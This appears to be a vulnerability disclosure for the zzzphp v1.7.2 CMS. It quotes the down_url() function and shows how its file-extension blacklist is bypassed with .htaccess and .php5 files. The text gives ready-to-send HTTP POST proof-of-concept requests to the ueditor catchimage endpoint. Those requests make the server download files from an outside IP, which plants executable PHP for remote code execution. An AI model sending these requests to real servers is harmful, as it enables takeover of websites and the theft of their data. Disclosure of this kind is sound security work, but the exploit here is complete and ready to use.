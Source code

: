 ## zzzphp v1.7.2 Code excute

inc/zzz_file.php

```php
function down_url( $url, $save_dir='file', $filename = '', $type = 0 ) {
	if ( is_null( $url ) ) return array( 'state' => '内容为空', 'dir' => '', 'url' => '', 'error' => 1 );
	// save_dir = zzzphp/upload/file/
	$save_dir = SITE_DIR.conf('uploadpath').$save_dir.'/';
	// 未指定filename参数，以url结尾保存文件
	if ( trim( $filename ) == '' ) { //保存文件名
		$filename = file_name( $url );
		$file_ext = file_ext( $url );
	}else{
		$file_ext = file_ext( $url );
	}
	if(in_array($file_ext,array('php','asp','aspx','exe','sh','sql','bat')) ||  empty($file_ext))  {
		return array( 'state' => '创建文件失败,禁止创建'.$file_ext.'文件！,' . $url, 'dir' => '', 'url' => '', 'error' => 5 );
	}
	//创建保存目录
	if ( !file_exists( $save_dir ) && !mkdir( $save_dir, 0777, true ) ) {
		return array( 'state' => '创建文件夹失败', 'dir' => '', 'url' => '', 'error' => 5 );
	}
	$file_dir = $save_dir . $filename;
	$file_path = str_replace( SITE_DIR, SITE_PATH, $file_dir );
	if ( file_exists( $file_dir ) )	del_file( $file_dir );
	//获取远程文件所采用的方法
	if ( $type ) {
		$ch = curl_init();
		$timeout = 5;
		curl_setopt( $ch, CURLOPT_URL, $url );
		curl_setopt( $ch, CURLOPT_RETURNTRANSFER, 1 );
		curl_setopt( $ch, CURLOPT_CONNECTTIMEOUT, $timeout );
		$img = curl_exec( $ch );
		curl_close( $ch );
	} else {
		ob_start();
		readfile( $url );
		$img = ob_get_contents();
		ob_end_clean();
	}
	$fp2 = @fopen( $file_dir, 'a' );
	fwrite( $fp2, $img );
	fclose( $fp2 );
	unset( $img, $url );
	return array('state'=> 'SUCCESS','title' => $filename, 'dir' => $file_dir, 'ext' => $file_ext, 'url' => $file_path, 'error' => 0 );
}
```

function down_url() will download file with the specified url. This made a blacklist limit, but it was easy to bypass. For example, we can use `php5` to bypass the check of php, and `htaccess` is not in the blacklist !

so we can upload a .htaccess file firstly and upload a php5 file.

The down_url() is used in the plugins/ueditor/php/controller.php:

```php
switch ($action) {
    ......
/* 抓取远程文件 */
    case 'catchimage':
		$source=getform('source','post');
		$list = array();
     	foreach ($source as $imgUrl) {
			$info =down_url(safe_url($imgUrl),$upfolder); 
			if ($info['state']=="SUCCESS"){
				array_push($list, array(			
					"state" => "SUCCESS",				
					"title" => $info["title"],
					"url" => $info["url"],
					"source"=>$imgUrl
				));
			}
		}
		$result =  json_encode(array(
			'state' => count($list) ? 'SUCCESS' : 'ERROR',
			'list' => $list
		));
        break;
```

Specify the `$action` parameter to enter this case. Pass the `source` parameter to specify the url.

Final Poc like this:

Download .htaccess

```
POST /zzzphp/plugins/ueditor/php/controller.php?upfolder=news&action=catchimage& HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/zzzphp/admin412/?content/cid=4
X-Forwarded-For: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

source[]=http://45.78.50.117:8000/.htaccess
```

Download s.php5

```
POST /zzzphp/plugins/ueditor/php/controller.php?upfolder=news&action=catchimage& HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/zzzphp/admin412/?content/cid=4
X-Forwarded-For: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

source[]=http://45.78.50.117:8000/s.php5
```

A gif:

https://s2.ax1x.com/2019/09/05/nmi8Ug.gif

